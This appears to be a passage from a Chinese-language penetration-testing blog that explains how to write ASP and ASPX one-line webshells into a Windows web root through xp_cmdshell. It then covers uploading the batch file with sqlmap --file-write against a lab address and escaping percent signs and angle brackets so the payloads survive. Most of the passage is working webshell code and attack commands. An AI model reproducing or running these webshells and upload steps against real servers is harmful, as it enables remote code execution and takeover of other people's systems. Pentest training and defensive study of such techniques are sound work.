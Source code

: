 我们先在本地创建一个用于写一句话木马的批处理文件，不过得将该文件编码改为ANSI或GB2312（默认UTF-8），因为xp_cmdshell调用的cmd.exe命令终端的编码是GBK。
Default
写ASP一句话：
echo ^<%eval request("xxxasec")%^> >C:\inetpub\wwwroot\中文测试\shell.asp
 
写ASPX一句话：
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell.aspx

接着再利用sqlmap –file-write、–file-dest参数或者Windows自带的certutil等程序将这个写马批处理文件落地到目标磁盘中
Default
sqlmap -u "http://192.168.56.102/sql.aspx?id=1" --batch --file-write /tmp/shell.bat -file-dest C:\\ProgramData\\shell.bat

再用type看下文件中的中文字符已经没有乱码了，但是在执行这个批处理文件写马时又出现了一点问题。
%与批处理不兼容的问题，其实就是一句话木马中的%……%被批处理当作行间注释了，不能出现>重定向符号和|管道符号，这时我们可以用两个%百分号来解决这个问题。
Default
写ASP一句话：
echo ^<%%eval request("xxxasec")%%^> >C:\inetpub\wwwroot\中文测试\shell.asp
 
写ASPX一句话：
echo ^<%%@ Page Language="Jscript"%%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%%^> > C:\inetpub\wwwroot\中文测试\shell.aspx

将以上进行转义过的写一句话木马的批处理文件再次通过sqlmap –file-write、–file-dest的方式上传至目标磁盘中并执行。
需要注意的几个地方
Default
    命令行写Webshell时得在<>尖括号前用^转义：^<^>；
 
    批处理写Webshell时得在%百分号前用%转义：%%1%%2；
 
    sqlmap --file-write、--file-dest写入文件时路径得用\\双斜杠；